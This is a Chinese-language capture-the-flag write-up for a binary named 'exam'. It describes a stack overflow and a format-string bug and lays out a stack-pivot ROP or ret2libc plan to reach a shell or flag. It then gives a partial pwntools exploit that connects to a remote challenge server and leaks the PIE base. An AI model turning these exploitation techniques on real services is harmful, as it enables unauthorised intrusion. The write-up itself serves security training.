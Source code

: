 只有canary被关闭，其他防护全开

##### IDA F5分析

主要功能：

1. readQuestion，没用，3个puts输出固定字符串。
2. writeAnswer，读入0x80个字节，存在0x10个字节栈溢出，同时会把读入数据复制一份到bss段中的answersheet。
3. askTeacher，存在格式化字符串漏洞
4. takeAnap，sleep两小时。。。
5. backdoor，不能直接调用，需要传一个参数。参数等于30，且全局变量point=666，即可得到flag。

##### 解题思路：

由于开了PIE，因此leak需要通过格式化字符串。又由于执行backdoor需要参数，因此至少需要0x20（ebp+pop_rdi+30+backdoor）个字节的栈溢出才能构造ROP链。由此想到可以通过栈迁移来达成。

栈迁移首先需要找`leave;ret;`。这次从题目文件中找，由于开了PIE，所以我们需要leak出PIE。经过测试，直接栈迁移到answersheet中，在执行过程中会把GOT表破坏掉从而报错。因此我们考虑把栈迁移到栈中，即writeAnswer中读入数据存的地方。所以我们还需要leak出栈地址。

之后构造ROP链，有两种方法。一种是先用格式化字符串改了point全局变量，接着调用backdoor函数。另一种是通过ret2libc，先leak出libc函数的地址再调用system('/bin/sh')

##### exp:

```python
from pwn import *
elf=ELF("exam")
#io=elf.process()
io=remote("123.207.32.26",9002)
libc=elf.libc
#libc=ELF("")
context.log_level='debug'

sla=io.sendlineafter
sl=io.sendline
sa=io.sendafter
ru=io.recvuntil
shell=io.interactive

def menu(choice):
	sla("room",str(choice))

def write(payload):
	menu(2)
	sa("paper:\n",payload)
	sla("[Y/N]\n",'Y')

def ask(payload):
	menu(3)
	sa("question?\n",payload)

csu_init=0x15f0
backdoor=0x11c5
bss=0x4040
leave_ret=0x12c5#ROPgadget --binary exam --only 'leave|ret'
pop_rdi=0x164b#ROPgadget --binary exam --only 'pop|ret'|grep rdi
point=0x4014

#gdb.attach(io)
payload='%24$paaa%13$pbbb%19$pccc%20$pddd'
ask(payload)
ru("is : ")
#leak PIE
csu_init_addr=int(ru("aaa",True),16)
pie=csu_init_addr-csu_init
print "pie:"+hex(pie)
```